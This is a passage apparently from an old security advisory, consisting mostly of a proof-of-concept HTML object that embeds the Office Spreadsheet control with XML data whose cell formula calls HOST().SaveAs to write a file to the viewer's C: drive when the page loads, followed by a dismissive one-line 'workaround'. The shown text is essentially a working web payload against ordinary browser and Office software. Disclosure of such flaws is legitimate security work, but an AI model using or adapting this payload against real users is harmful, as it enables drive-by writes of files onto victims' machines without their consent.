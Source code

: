 <param name=XMLData    value="&lt;?xml version=&quot;1.0&quot;?&gt;&#13;&#10;&lt;ss:Workbook xmlns:o=&quot;urn:schemas-microsoft-com:office:office&quot;&#13;&#10; xmlns:x=&quot;urn:schemas-microsoft-com:office:excel&quot;&#13;&#10; xmlns:ss=&quot;urn:schemas-microsoft-com:office:spreadsheet&quot;&#13;&#10; xmlns:c=&quot;urn:schemas-microsoft-com:office:component:spreadsheet&quot;&#13;&#10; xmlns:html=&quot;http://www.w3.org/TR/REC-html40&quot;&gt;&#13;&#10; &lt;x:ExcelWorkbook&gt;&#13;&#10;  &lt;x:ProtectStructure&gt;False&lt;/x:ProtectStructure&gt;&#13;&#10;  &lt;x:ActiveSheet&gt;0&lt;/x:ActiveSheet&gt;&#13;&#10; &lt;/x:ExcelWorkbook&gt;&#13;&#10; &lt;ss:Styles&gt;&#13;&#10;  &lt;ss:Style ss:ID=&quot;Default&quot;&gt;&#13;&#10;   &lt;ss:Alignment ss:Horizontal=&quot;Automatic&quot; ss:Rotate=&quot;0.0&quot; ss:Vertical=&quot;Bottom&quot;&#13;&#10;    ss:ReadingOrder=&quot;Context&quot;/&gt;&#13;&#10;   &lt;ss:Borders&gt;&#13;&#10;   &lt;/ss:Borders&gt;&#13;&#10;   &lt;ss:Font ss:FontName=&quot;Arial&quot; ss:Size=&quot;10&quot; ss:Color=&quot;Automatic&quot; ss:Bold=&quot;0&quot;&#13;&#10;    ss:Italic=&quot;0&quot; ss:Underline=&quot;None&quot;/&gt;&#13;&#10;   &lt;ss:Interior ss:Color=&quot;Automatic&quot; ss:Pattern=&quot;None&quot;/&gt;&#13;&#10;   &lt;ss:NumberFormat ss:Format=&quot;General&quot;/&gt;&#13;&#10;   &lt;ss:Protection ss:Protected=&quot;1&quot;/&gt;&#13;&#10;  &lt;/ss:Style&gt;&#13;&#10; &lt;/ss:Styles&gt;&#13;&#10; &lt;c:ComponentOptions&gt;&#13;&#10;  &lt;c:Label&gt;&#13;&#10;   &lt;c:Caption&gt;Microsoft Office Spreadsheet&lt;/c:Caption&gt;&#13;&#10;  &lt;/c:Label&gt;&#13;&#10;  &lt;c:PreventPropBrowser/&gt;&#13;&#10;  &lt;c:MaxHeight&gt;80%&lt;/c:MaxHeight&gt;&#13;&#10;  &lt;c:MaxWidth&gt;80%&lt;/c:MaxWidth&gt;&#13;&#10;  &lt;c:NextSheetNumber&gt;1&lt;/c:NextSheetNumber&gt;&#13;&#10; &lt;/c:ComponentOptions&gt;&#13;&#10; &lt;x:WorkbookOptions&gt;&#13;&#10;  &lt;c:OWCVersion&gt;10.0.0.2621         &lt;/c:OWCVersion&gt;&#13;&#10;  &lt;x:DisableUndo/&gt;&#13;&#10; &lt;/x:WorkbookOptions&gt;&#13;&#10; &lt;ss:Worksheet ss:Name=&quot;Sheet1&quot;&gt;&#13;&#10;  &lt;x:WorksheetOptions&gt;&#13;&#10;   &lt;x:Selected/&gt;&#13;&#10;   &lt;x:ViewableRange&gt;R1:R262144&lt;/x:ViewableRange&gt;&#13;&#10;   &lt;x:Selection&gt;R1C1&lt;/x:Selection&gt;&#13;&#10;   &lt;x:TopRowVisible&gt;0&lt;/x:TopRowVisible&gt;&#13;&#10;   &lt;x:LeftColumnVisible&gt;0&lt;/x:LeftColumnVisible&gt;&#13;&#10;   &lt;x:ProtectContents&gt;False&lt;/x:ProtectContents&gt;&#13;&#10;  &lt;/x:WorksheetOptions&gt;&#13;&#10;  &lt;c:WorksheetOptions&gt;&#13;&#10;  &lt;/c:WorksheetOptions&gt;&#13;&#10;  &lt;ss:Table ss:ExpandedColumnCount=&quot;1&quot; ss:ExpandedRowCount=&quot;1&quot;&#13;&#10;   ss:DefaultColumnWidth=&quot;48.0&quot; ss:DefaultRowHeight=&quot;12.75&quot;&gt;&#13;&#10;   &lt;ss:Row&gt;&#13;&#10;    &lt;ss:Cell ss:Formula='=HOST().SaveAs(&quot;C:\GGGG5&quot;)'&gt;&#13;&#10;     &lt;ss:Data ss:Type=&quot;Boolean&quot;&gt;1&lt;/ss:Data&gt;&#13;&#10;    &lt;/ss:Cell&gt;&#13;&#10;   &lt;/ss:Row&gt;&#13;&#10;  &lt;/ss:Table&gt;&#13;&#10; &lt;/ss:Worksheet&gt;&#13;&#10; &lt;ss:Worksheet ss:Name=&quot;Sheet2&quot;&gt;&#13;&#10;  &lt;x:WorksheetOptions&gt;&#13;&#10;   &lt;x:ViewableRange&gt;R1:R262144&lt;/x:ViewableRange&gt;&#13;&#10;   &lt;x:Selection&gt;R1C1&lt;/x:Selection&gt;&#13;&#10;   &lt;x:TopRowVisible&gt;0&lt;/x:TopRowVisible&gt;&#13;&#10;   &lt;x:LeftColumnVisible&gt;0&lt;/x:LeftColumnVisible&gt;&#13;&#10;   &lt;x:ProtectContents&gt;False&lt;/x:ProtectContents&gt;&#13;&#10;  &lt;/x:WorksheetOptions&gt;&#13;&#10;  &lt;c:WorksheetOptions&gt;&#13;&#10;  &lt;/c:WorksheetOptions&gt;&#13;&#10; &lt;/ss:Worksheet&gt;&#13;&#10; &lt;ss:Worksheet ss:Name=&quot;Sheet3&quot;&gt;&#13;&#10;  &lt;x:WorksheetOptions&gt;&#13;&#10;   &lt;x:ViewableRange&gt;R1:R262144&lt;/x:ViewableRange&gt;&#13;&#10;   &lt;x:Selection&gt;R1C1&lt;/x:Selection&gt;&#13;&#10;   &lt;x:TopRowVisible&gt;0&lt;/x:TopRowVisible&gt;&#13;&#10;   &lt;x:LeftColumnVisible&gt;0&lt;/x:LeftColumnVisible&gt;&#13;&#10;   &lt;x:ProtectContents&gt;False&lt;/x:ProtectContents&gt;&#13;&#10;  &lt;/x:WorksheetOptions&gt;&#13;&#10;  &lt;c:WorksheetOptions&gt;&#13;&#10;  &lt;/c:WorksheetOptions&gt;&#13;&#10; &lt;/ss:Worksheet&gt;&#13;&#10;  &lt;o:DocumentProperties&gt;&#13;&#10;   &lt;o:Author&gt;ad&lt;/o:Author&gt;&#13;&#10;   &lt;o:LastAuthor&gt;ad&lt;/o:LastAuthor&gt;&#13;&#10;   &lt;o:Created&gt;2002-03-17T12:07:37Z&lt;/o:Created&gt;&#13;&#10;   &lt;o:Company&gt;g&lt;/o:Company&gt;&#13;&#10;   &lt;o:Version&gt;10.2625&lt;/o:Version&gt;&#13;&#10;  &lt;/o:DocumentProperties&gt;&#13;&#10;  &lt;o:OfficeDocumentSettings&gt;&#13;&#10;   &lt;o:DownloadComponents/&gt;&#13;&#10;   &lt;o:LocationOfComponents HRef=&quot;file:///E:\&quot;/&gt;&#13;&#10;  &lt;/o:OfficeDocumentSettings&gt;&#13;&#10;&lt;/ss:Workbook&gt;&#13;&#10;">    <param name=AllowPropertyToolbox value=0>    <param name=AutoFit value=0>    <param name=Calculation value=-4105>    <param name=Caption value="Microsoft Office Spreadsheet">    <param name=DisplayColumnHeadings value=-1>    <param name=DisplayGridlines value=-1>    <param name=DisplayHorizontalScrollBar value=-1>    <param name=DisplayOfficeLogo value=-1>    <param name=DisplayPropertyToolbox value=0>    <param name=DisplayRowHeadings value=-1>    <param name=DisplayTitleBar value=0>    <param name=DisplayToolbar value=-1>    <param name=DisplayVerticalScrollBar value=-1>    <param name=DisplayWorkbookTabs value=-1>    <param name=EnableEvents value=-1>    <param name=MaxHeight value="80%">    <param name=MaxWidth value="80%">    <param name=MoveAfterReturn value=-1>    <param name=MoveAfterReturnDirection value=-4121>    <param name=RightToLeft value=0>    <param name=ScreenUpdating value=-1>    <param name=EnableUndo value=0>   </object> ---------------------------------  Workaround/Solution: The solution is to get a real mail client and office applications. Workaround